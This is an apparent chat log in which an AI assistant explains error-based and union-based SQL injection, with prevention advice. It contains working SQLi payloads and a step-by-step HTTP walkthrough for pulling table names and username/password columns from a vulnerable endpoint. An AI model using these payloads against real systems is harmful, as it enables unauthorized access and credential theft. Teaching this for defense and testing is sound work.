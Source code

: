 

# In-Band SQL Injection (SQLi)

In-Band SQL Injection is one of the most common and straightforward types of SQL injection attacks where the attacker uses the same communication channel to both launch the attack and gather results.

## Types of In-Band SQLi:

1. **Error-Based SQLi**:
   - Relies on error messages returned by the database server
   - Attacker intentionally causes errors to extract information
   - Example: `' OR 1=CONVERT(int, (SELECT table_name FROM information_schema.tables))--`

2. **Union-Based SQLi**:
   - Uses the UNION SQL operator to combine results from multiple SELECT statements
   - Requires knowledge of the database structure
   - Example: `' UNION SELECT username, password FROM users--`

## Characteristics:
- Results are returned directly in the application's response
- Easier to exploit than other types (blind SQLi)
- Often used for data extraction

## Prevention:
- Use parameterized queries/prepared statements
- Implement proper error handling (don't show DB errors to users)
- Apply principle of least privilege for DB accounts
- Use web application firewalls (WAFs)

Explain Error Based and Union Based a bit more

 # In-Band SQL Injection: Error-Based and Union-Based

## Error-Based SQL Injection

Error-based SQL injection is a technique where attackers deliberately cause the database to generate error messages that reveal information about the database structure or contents.

**How it works:**
1. The attacker submits malicious input that causes a SQL error
2. The application displays the error message (either directly or in logs)
3. The error contains sensitive information about:
   - Database structure (table names, column names)
   - Database type/version
   - Query syntax that can be exploited further

**Example:**
```sql
' AND 1=CONVERT(int, (SELECT table_name FROM information_schema.tables))--
```
This might return an error like:
```
Conversion failed when converting the nvarchar value 'users' to data type int.
```
Revealing that there's a table called "users".

**Characteristics:**
- Relies on verbose error reporting
- Works even when no data is returned to the user
- Often used for reconnaissance before other attacks

## Union-Based SQL Injection

Union-based SQL injection leverages the UNION SQL operator to combine results from the original query with results from an injected query.

**How it works:**
1. The attacker determines the number of columns in the original query
2. They craft a UNION SELECT statement with matching columns
3. The database combines and returns results from both queries

**Example:**
```sql
' UNION SELECT username, password FROM users--
```

**Key requirements:**
1. Both queries must return the same number of columns
2. Corresponding columns must have compatible data types

**Process for exploitation:**
1. Find vulnerable parameter (through testing with `'` or `"`)
2. Determine number of columns (using ORDER BY or UNION SELECT NULL,...)
3. Identify which columns are displayed in output
4. Craft UNION SELECT to extract desired data

**Example step-by-step:**

Continue from Example Step-by-step


# In-Band SQL Injection: Error-Based and Union-Based - Continued

## Union-Based SQL Injection Step-by-Step Example

Let's walk through a complete example of exploiting a union-based SQL injection:

1. **Identify vulnerable parameter**:
   ```http
   GET /products?id=1' HTTP/1.1
   ```
   If this returns a database error, the parameter may be vulnerable.

2. **Determine number of columns**:
   Method 1 (ORDER BY):
   ```http
   GET /products?id=1 ORDER BY 1-- HTTP/1.1
   GET /products?id=1 ORDER BY 2-- HTTP/1.1
   ...
   ```
   When you exceed the number of columns (e.g., ORDER BY 5 fails), you've found the limit.

   Method 2 (UNION SELECT):
   ```http
   GET /products?id=1 UNION SELECT NULL-- HTTP/1.1
   GET /products?id=1 UNION SELECT NULL,NULL-- HTTP/1.1
   ...
   ```
   Continue adding NULLs until no error occurs.

3. **Find which columns are displayed**:
   Replace NULLs with numbers or strings to see which appear in output:
   ```http
   GET /products?id=999 UNION SELECT 111,'aaa',222-- HTTP/1.1
   ```
   999 ensures original query returns no results so we only see our injected data.

4. **Extract data**:
    Now replace the placeholders with real queries:
    ```http
    GET /products?id=999 UNION SELECT NULL,table_name,NULL FROM information_schema.tables-- HTTP/1.1
    ```

5. **Get sensitive data**:
    Once you know table and column names: 
    ```http
    GET /products?id=999 UNION SELECT NULL,username,password FROM users-- HTTP/1.1
    ```

## Error-Based SQL Injection Advanced Techniques

Attackers often use these functions for error-based extraction:

- `CONVERT()` or `CAST()` to force type conversion errors
- `EXEC()` to execute dynamic SQL that generates errors 
- Database-specific functions like PostgreSQL's `pg_sleep()` with time-based errors

**Example extracting database version**:
```sql
' AND 1=CONVERT(int, @@VERSION)--
```
Might return:
```
Conversion failed when converting the nvarchar value '

continue

 It looks like you're referencing a topic related to **In-Band SQL Injection (SQLi)**, possibly from a tutorial or course.  

### **What is In-Band SQL Injection?**  
In-Band SQL Injection is one of the most straightforward types of SQLi, where an attacker uses the same communication channel to both launch the attack and retrieve results. There are two main types:  

1. **Error-Based SQLi** – Exploits database error messages to extract information.  
2. **Union-Based SQLi** – Uses the `UNION` operator to combine malicious queries with legitimate ones, retrieving data from different tables.  

### **Example of Union-Based SQLi**  
Suppose a vulnerable website has a URL like:  
```
http://example.com/products?id=1
```  
An attacker might inject:  
```
http://example.com/products?id=1 UNION SELECT username, password FROM users--
```  
This could dump user credentials if the application is vulnerable.  

### **Mitigation Techniques**  
- Use **Prepared Statements (Parameterized Queries)**  
- Implement **Input Validation & Sanitization**  
- Apply the **Principle of Least Privilege** for database accounts  

Would you like a deeper dive into any specific aspect (e.g., payloads, bypass techniques, or labs)?
